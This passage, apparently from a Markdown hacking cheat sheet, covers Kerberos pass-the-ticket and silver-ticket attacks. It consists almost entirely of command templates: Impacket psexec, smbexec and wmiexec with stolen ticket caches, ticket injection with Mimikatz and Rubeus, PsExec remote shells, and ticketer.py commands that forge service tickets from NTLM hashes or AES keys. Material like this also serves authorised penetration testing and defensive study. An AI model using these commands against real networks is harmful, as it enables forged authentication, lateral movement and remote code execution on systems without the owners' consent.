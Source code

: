 #### Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

#### Using ticket in Windows

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

### Silver ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```
# To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

